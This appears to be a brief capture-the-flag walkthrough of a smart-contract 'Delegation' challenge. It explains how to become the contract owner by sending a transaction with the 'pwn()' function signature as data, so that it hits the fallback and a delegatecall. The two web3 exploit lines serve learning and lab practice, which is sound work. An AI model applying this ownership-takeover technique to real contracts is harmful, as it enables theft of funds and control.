 This contract requires us to change owner to our own address. .
To change Delegation we need to call the fallback function by sending a transaction that will hit the fallback function. 

We need to generate the function signature to pass in as msg.data into the delegatecall.

var pwnSig = web3.utils.sha3("pwn()")

Then sendTransaction with data field to hit the fallback function.

contract.sendTransaction({data: pwnSig})
